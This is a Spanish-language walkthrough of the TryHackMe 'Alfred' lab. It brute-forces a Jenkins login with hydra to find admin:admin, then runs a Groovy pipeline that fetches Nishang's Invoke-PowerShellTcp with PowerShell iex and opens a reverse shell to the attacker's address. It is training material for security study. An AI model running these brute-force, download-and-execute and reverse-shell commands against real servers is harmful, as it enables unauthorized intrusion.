




TryHackMe
Easy
Windows
Jenkins
Groovy
PowerShell
Nishang
Alfred
Jenkins con credenciales admin:admin; ejecucion de comandos via Groovy pipeline; reverse shell PowerShell con Nishang.
cat4clysm
Herramientas utilizadas
nmap
hydra
netcat
nishang
Scanning
root@kali:~$
sudo nmap -sC -sV -p 80,3389,8080 -Pn -n 10.10.114.27 -oN targeted
Puerto 8080 - Jenkins Login
root@kali:~$
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 -V -t 64 10.10.114.27 http-post-form "/loginError/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"Credenciales encontradas: admin:admin
Jenkins - Reverse Shell via Groovy
root@kali:~$
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1Agregamos al final del script: Invoke-PowerShellTcp -Reverse -IPAddress 10.13.13.243 -Port 4444
Creamos un pipeline Jenkins con script Groovy:
String cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://10.13.13.243/Invoke-PowerShellTcp.ps1');"
Runtime.getRuntime().exec(cmd);


Lecciones aprendidas
- Jenkins con credenciales por defecto (admin:admin) es un vector de acceso muy comun.
- El script de consola Groovy de Jenkins permite ejecutar comandos del sistema operativo directamente.
- Nishang Invoke-PowerShellTcp es una de las formas mas rapidas de obtener reverse shell en Windows.